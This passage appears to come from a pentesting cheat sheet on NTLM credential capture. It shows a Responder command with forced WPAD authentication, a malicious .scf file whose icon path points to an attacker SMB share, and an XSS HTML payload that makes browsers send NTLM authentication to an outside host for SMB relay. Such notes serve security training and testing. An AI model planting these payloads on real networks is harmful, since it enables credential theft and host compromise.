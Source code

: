 It is possible to force an authentication form when the wpad file is requested with the -F option. This way, when the user completes this auth, Responder will receive its NetNTLM hash.
 * `sudo ./Responder.py -I <device> -wF`


## SCF file
Find a share with the write access enabled and create a new file with the extension `.scf` and the following content :
```
[Shell]
Command=2
IconFile=\\192.168.0.12\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

As soon as an user open the share with the .scf file, Windows's Explorer will initiate an SMB handshake to 192.168.0.12\share\test.ico in order to retrieve the icon.

It is possible to combine this attack with an SMBrelay attack

## Trigger an NTML authentication with an XSS
If you have an XSS, it is possible to trick the browser to send an SMB request for retrieving a specific file, at least for some browsers...

 * Internet Explorer : SHUT UP AND TAKE MY CREDS
 * Firefox : only iframe -> a form will pop up and ask for the user's credentials (as well as a security alert)
 * Chrome : Too secure for ya, sry (I haven't managed to find a working payload for this browser)

Thus, on an environment where Internet Explorer is the main browser (**urgh**), it is possible to retrieve an NTLM authentication triggered by an XSS and uses it for an SMBRelay attack.

This is an example of the payload to inject in order to do the SMB Request :
```html
<html>
    <body>
        <p>test text</p>

        <!-- This following code will trigger an SMB Request to 172.16.1.10 -->
        <img src="\\172.16.1.10\resource.png" alt="ds"/>

        <!-- Firefox will filter out images, but not iframes -->
        <iframe src="\\172.16.1.10/bla.html"></iframe>
    </body>
</html>
```

## SMB Relay
The SMB Relay attack is one of the most simple way for compromising a host and is very easy to use.
The SANS image explains the attack very well : https://blogs.sans.org/pen-testing/files/2013/04/smbrelaypic2-relaydiagram.png
And of course, Responder have all the necessary tools for this attack.
